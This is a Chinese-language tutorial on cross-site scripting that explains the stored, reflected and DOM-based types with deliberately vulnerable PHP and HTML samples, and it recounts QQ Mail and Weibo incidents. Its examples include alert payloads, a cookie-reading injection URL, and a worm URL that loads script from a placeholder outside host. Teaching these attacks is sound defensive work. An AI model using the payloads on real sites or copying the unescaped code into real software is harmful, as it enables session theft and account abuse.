


# XSS攻击

跨站脚本攻击（Cross Site Scripting）本来的缩写为CSS，为了与层叠样式表（Cascading Style Sheets，CSS）的缩写进行区分，将跨站脚本攻击缩写为XSS。因此XSS是跨站脚本的意思。

XSS跨站脚本攻击（Cross Site Scripting）的本质是攻击者在web页面插入恶意的script代码（这个代码可以是JS脚本、CSS样式或者其他意料之外的代码），当用户浏览该页面之时，嵌入其中的script代码会被执行，从而达到恶意攻击用户的目的。比如读取cookie，token或者网站其他敏感的网站信息，对用户进行钓鱼欺诈等。比较经典的事故有：

## 一. 存储型XSS攻击

### 1.1 攻击原理

存储型XSS又称为持久型XSS，是指：攻击者将XSS代码发送给了后端，而后端没有对这些代码做处理直接存储在数据库中。当用户访问网站时，又直接从数据库调用出来传给前端，前端解析XSS代码就造成了XSS攻击。

存储型 XSS 的攻击步骤：

1. 攻击者将恶意代码提交到目标网站的数据库中。
2. 用户打开目标网站时，网站服务端将恶意代码从数据库取出，拼接在 HTML 中返回给浏览器。
3. 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行。
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

这种攻击常见于带有用户保存数据的网站功能，如论坛发帖、商品评论、用户私信等。



### 1.2 案例

某天，公司需要一个留言板，用户可以自由输入留言内容并提交。代码如下：

```php
<?php
	$nickname = @$_POST['nickname'];//昵称
	$email = @$_POST['email'];//邮箱
	$content = @$_POST['content'];//留言内容
	$now_time = @$_POST['now_time'];//留言时间
	$ini= @parse_ini_file("config.ini");
    $con = @mysql_connect($ini["servername"],$ini["username"],$ini["password"]);
	if($con){
		mysql_query("set names 'utf8'");//解决中文乱码问题
		mysql_select_db($ini["dbname"]);
		$sql1 = "select count(*) from message_board";
		$result = mysql_query($sql1);
		$floor = mysql_fetch_row($result)[0] + 1;
		$sql = "insert into message_board values($floor,\"$nickname\",\"$email\",\"$content\",\"$now_time\")";
		mysql_query($sql);
	}

?>
```

上线后不久，小李就在数据库中发现了一些奇怪的留言：

```txt
<script>alert(1)</script>
```

打开留言板版后，弹出了如下弹框：




> 可恶，中招了！小李眉头一皱，查看源代码，发现攻击代码已经注入进来：


## 二. 反射型XSS攻击

### 2.1 攻击原理

反射型XSS又称为做非持久型XSS，也是最常用，使用最广的一种方式。它是指通过给别人发送带有恶意脚本代码参数的URL，当URL地址被打开时，特有的恶意代码参数被HTML解析、执行。它的特点是非持久化，必须用户点击带有特定参数的链接才能引起。

**它的根本原因，是网站过于信任URL上的参数，不经过任何处理，直接拼接至页面导致的问题**。

反射型 XSS 的攻击步骤：

1. 攻击者构造出特殊的 URL，其中包含恶意代码。
2. 用户打开带有恶意代码的 URL 时，网站服务端将恶意代码从 URL 中取出，拼接在 HTML 中返回给浏览器。
3. 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行。
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

攻击者可以通过邮件，或者搜索引擎等将带有XSS攻击代码的链接投放给用户，用户点击链接后，页面会从URL上取出对应的参数，渲染到页面上，此时攻击代码将会被执行。

### 2.2 案例

某天，公司需要一个搜索页面，根据 URL 参数决定关键词的内容。小明很快把页面写好并且上线。代码如下：

```html
<input type="text" value="<%= getParameter("keyword") %>">
<button>搜索</button>
<div>
  您搜索的关键词是：<%= getParameter("keyword") %>
</div>
```

然而，在上线后不久，小明就接到了安全组发来的一个神秘链接：

```
http://xxx/search?keyword="><script>alert('XSS');</script>
```

小明带着一种不祥的预感点开了这个链接[请勿模仿，确认安全的链接才能点开]。果然，页面中弹出了写着”XSS”的对话框。

> 可恶，中招了！小明眉头一皱，发现了其中的奥秘：

当浏览器请求 `http://xxx/search?keyword="><script>alert('XSS');</script>` 时，服务端会解析出请求参数 `keyword`，得到 `"><script>alert('XSS');</script>`，拼接到 HTML 中返回给浏览器。形成了如下的 HTML：

```html
<input type="text" value=""><script>alert('XSS');</script>">
<button>搜索</button>
<div>
  您搜索的关键词是："><script>alert('XSS');</script>
</div>
```

浏览器无法分辨出 `<script>alert('XSS');</script>` 是恶意代码，因而将其执行。

这里不仅仅 div 的内容被注入了，而且 input 的 value 属性也被注入， alert 会弹出两次。

## 三. DOM型XSS攻击

### 3.1 攻击原理

DOM 型 XSS 的攻击步骤：

1. 攻击者构造出特殊的 URL，其中包含恶意代码。
2. 用户打开带有恶意代码的 URL。
3. 用户浏览器接收到响应后解析执行，前端 JavaScript 取出 URL 中的恶意代码并执行。
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

DOM 型 XSS 跟前两种 XSS 的区别：DOM 型 XSS 攻击中，取出和执行恶意代码由浏览器端完成，属于前端 JavaScript 自身的安全漏洞，而其他两种 XSS 都属于服务端的安全漏洞。

### 3.2 案例

某一天前端开发的一个页面，需要回显用户在输入框输入的内容，代码如下：

```html
<div id="xssd_main">
    <script>
        function domxss(){
            var str = document.getElementById("text").value;
            document.getElementById("dom").innerHTML = "<a href='"+str+"'>what do you see?</a>";
        }
    </script>

    <input id="text" name="text" type="text"  value="" />
    <input id="button" type="button" value="click me!" onclick="domxss()" />
    <div id="dom"></div>
</div>
```

当用户在输入框输入 `#'onclick="alert('1_Ry')">` 时，页面的源码渲染为：


此时如果用户继续点击生成的 `<a>`标签，就会触发脚本。

### 3.3 如何预防DOM型XSS攻击

DOM 型 XSS 攻击，实际上就是网站前端 JavaScript 代码本身不够严谨，把不可信的数据当作代码执行了。

在使用 `.innerHTML`、`.outerHTML`、`document.write()` 时要特别小心，不要把不可信的数据作为 HTML 插到页面上，而应尽量使用 `.textContent`、`.setAttribute()` 等。

如果用 Vue/React 技术栈，并且不使用 `v-html`/`dangerouslySetInnerHTML` 功能，就在前端 render 阶段避免 `innerHTML`、`outerHTML` 的 XSS 隐患。

DOM 中的内联事件监听器，如 `location`、`onclick`、`onerror`、`onload`、`onmouseover` 等，`<a>` 标签的 `href` 属性，JavaScript 的 `eval()`、`setTimeout()`、`setInterval()` 等，都能把字符串作为代码运行。如果不可信的数据拼接到字符串中传递给这些 API，很容易产生安全隐患，请务必避免。

## 四. XSS攻击的危害

上述示例中没有对网站、用户造成实际伤害，但是只需要将攻击执行的脚本换成其他恶意代码，比如说获取用户Cookie然后通过Ajax请求，将获取到的用户Cookie发送至攻击者所搭建的服务器上，这样用户登录态就被黑客盗取，带来的后果可想而知。

但是脚本攻击的危害远远不仅如此，包括但不限于：

- 通过 document.cookie 盗取 cookie中的信息
- 使用 js或 css破坏页面正常的结构与样式
- 流量劫持（通过访问某段具有 window.location.href 定位到其他页面）
- dos攻击：利用合理的客户端请求来占用过多的服务器资源，从而使合法用户无法得到服务器响应。并且通过携带过程的 cookie信息可以使服务端返回400开头的状态码，从而拒绝合理的请求服务。
- 利用 iframe、frame、XMLHttpRequest或上述 Flash等方式，以（被攻击）用户的身份执行一些管理动作，或执行一些一般的如发微博、加好友、发私信等操作，并且攻击者还可以利用 iframe，frame进一步的进行 CSRF 攻击。
- 控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力。

## 五. XSS攻击案例

### 5.1 QQ 邮箱 m.exmail.qq.com 域名反射型 XSS 漏洞

攻击者发现 `http://m.exmail.qq.com/cgi-bin/login?uin=aaaa&domain=bbbb` 这个 URL 的参数 `uin`、`domain` 未经转义直接输出到 HTML 中。

于是攻击者构建出一个 URL，并引导用户去点击： `http://m.exmail.qq.com/cgi-bin/login?uin=aaaa&domain=bbbb%26quot%3B%3Breturn+false%3B%26quot%3B%26lt%3B%2Fscript%26gt%3B%26lt%3Bscript%26gt%3Balert(document.cookie)%26lt%3B%2Fscript%26gt%3B`

用户点击这个 URL 时，服务端取出 URL 参数，拼接到 HTML 响应中：

```html
<script>
getTop().location.href="/cgi-bin/loginpage?autologin=n&errtype=1&verify=&clientuin=aaa"+"&t="+"&d=bbbb";return false;</script><script>alert(document.cookie)</script>"+"...
```

浏览器接收到响应后就会执行 `alert(document.cookie)`，攻击者通过 JavaScript 即可窃取当前用户在 QQ 邮箱域名下的 Cookie ，进而危害数据安全。

### 5.2 新浪微博名人堂反射型 XSS 漏洞

攻击者发现 `http://weibo.com/pub/star/g/xyyyd` 这个 URL 的内容未经过滤直接输出到 HTML 中。

于是攻击者构建出一个 URL，然后诱导用户去点击：

```
http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>
```

用户点击这个 URL 时，服务端取出请求 URL，拼接到 HTML 响应中：

```html
<li><a href="http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>">按分类检索</a></li>
```

浏览器接收到响应后就会加载执行恶意脚本 `//xxxx.cn/image/t.js`，在恶意脚本中利用用户的登录状态进行关注、发微博、发私信等操作，发出的微博和私信可再带上攻击 URL，诱导更多人点击，不断放大攻击范围。这种窃用受害者身份发布恶意内容，层层放大攻击范围的方式，被称为“XSS 蠕虫”。

> 本文参考至：
>
> [前端安全系列（一）：如何防止XSS攻击？ - 美团技术团队 (meituan.com)](https://tech.meituan.com/2018/09/27/fe-security.html)